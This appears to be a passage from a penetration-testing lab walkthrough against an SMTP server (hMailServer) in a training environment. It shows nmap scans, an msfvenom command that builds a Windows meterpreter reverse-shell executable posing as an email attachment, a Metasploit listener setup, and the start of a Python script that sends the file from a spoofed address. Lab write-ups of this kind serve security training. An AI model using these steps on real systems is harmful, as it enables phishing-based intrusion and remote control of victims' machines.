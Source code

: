 In this lab, we will perform attacks on the SMTP service.
By default, the SMTP service uses port 25.

**Step 3**.

`nmap -sV demo.ine.local -p 25`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-01 14:13 IST
Nmap scan report for demo.ine.local (10.4.23.2)
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    hMailServer smtpd ←
Service Info: Host: ATTACKDEFENSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.12 seconds
```

`nmap --script smb-os-discovery demo.ine.local`:
```
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: attackdefense
|   NetBIOS computer name: ATTACKDEFENSE\x00
|   Domain name: ine.local
|   Forest name: ine.local
|   FQDN: attackdefense.ine.local
|_  System time: 2024-02-01T09:18:32+00:00

Nmap done: 1 IP address (1 host up) scanned in 3.88 seconds
```

**Step 4**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.13/16 brd 10.1.255.255 scope global eth0
inet 10.10.22.5/24 brd 10.10.22.255 scope global eth1
```

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=10.10.22.5 -f exe -o /root/Desktop/attachment.exe`

`msfconsole -q`, `search multi handler`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.22.5`, `exploit`.

**Step 5**.

`featherpad /root/Desktop/send_email_smtplib.py &`:
```python
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

# Sender and recipient information
sender_email = "alice@fake.net"
recipient_email = "bob@ine.local"
email_subject = "Requested file"
email_body = "I attach the requested file."

# SMTP server configuration
smtp_server = "demo.ine.local"
smtp_port = 25
```